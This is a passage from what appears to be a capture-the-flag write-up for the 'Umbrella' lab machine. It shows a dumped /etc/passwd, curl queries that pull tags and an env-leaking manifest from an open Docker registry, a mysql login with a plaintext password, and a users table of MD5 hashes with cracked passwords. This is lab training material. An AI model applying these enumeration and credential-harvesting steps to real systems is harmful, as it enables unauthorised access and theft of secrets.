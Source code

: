 the file `/etc/passwd` get us the user `node`:

```shell
# cat /etc/passwd  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash

```

### Method 2 - Manifest and Blobs

Get all the tags: `curl -s http://umbrella.thm:5000/v2/umbrella/timetracking/tags/list`

Once we get the "latest" tag we can start extracting the manifest and blobs.

- **Manifest** of a docker image describes the layers inside an image.
- **Blobs** refer to binary large objects, which are essentially the individual layers that compose a Docker image.

By looking at the manifest `curl -s http://umbrella.thm:5000/v2/umbrella/timetracking/manifests/latest` we can see the environment variables being set:

![](/images/umbrella/envs.png)

## Foothold

After obtaining the credentials. lets connect to the mysql database: `mysql -u root -D timetracking -h 10.10.247.66 -p'Ng1-f3!Pe7-e5?Nf3xe5'`
We have table users with the following users:

```shell
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 | Password1
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 | letmein
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 | sunshine1
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 | sandwich
+----------+----------------------------------+-------+
```
